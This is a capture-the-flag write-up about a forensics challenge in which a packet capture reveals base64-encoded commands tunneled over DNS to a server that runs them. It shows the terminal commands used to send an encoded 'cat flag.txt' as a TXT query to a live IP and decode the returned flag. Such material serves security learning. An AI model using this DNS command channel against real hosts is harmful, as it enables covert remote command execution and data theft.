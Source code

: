 ### Challenge
One of my servers was compromised, but I can't figure it out. See if you can solve it for me!

--> Given capture.pcap

### Recon
* Checking the packets for weird strings or weird transfers or communication ( Use strings, wireshark )
* Something that was right away evident --> Base64 strings
* All these were related to DNS transactions...
* The destination server that resolves the DNS is executing commands and returning the output!
* TIP: Check the server is live and connect to it!
--> The server does not respond to DNS queries though. Read the packet to replay it with my source IP and MAC with Scapy was not helpful....
--> Nmap for top ports showed that it had http, https ports open. Of course we could not check UDP properly.
--> I was missing something!
* After a good amount of time digging through this, some help from reference to relook at the DNS traffic. The first DNS transaction is weird request which has `dns.google.com` but to another weird server.
* The first dns transaction is where you get the destination IP of where to query! and then use that IP to query for command injection

```
kali@kali:~/Downloads$ nslookup -type=A dns.google.com 35.225.16.21
Server:         35.225.16.21
Address:        35.225.16.21#53

Non-authoritative answer:
Name:   dns.google.com
Address: 3.88.57.227

kali@kali:~/Downloads$ echo "cat flag.txt" | base64
Y2F0IGZsYWcudHh0Cg==
kali@kali:~/Downloads$ nslookup -type=txt Y2F0IGZsYWcudHh0Cg== 3.88.57.227
Server:         3.88.57.227
Address:        3.88.57.227#53

Non-authoritative answer:
Y2F0IGZsYWcudHh0Cg==    text = "dXRmbGFneyRhbDF5X3MzTDFTX3NFNF9kTiR9"

Authoritative answers can be found from:

kali@kali:~/Downloads$ echo "dXRmbGFneyRhbDF5X3MzTDFTX3NFNF9kTiR9" | base64 -d
utflag{$al1y_s3L1S_sE4_dN$}kali@kali:~/Downloads$ 

```

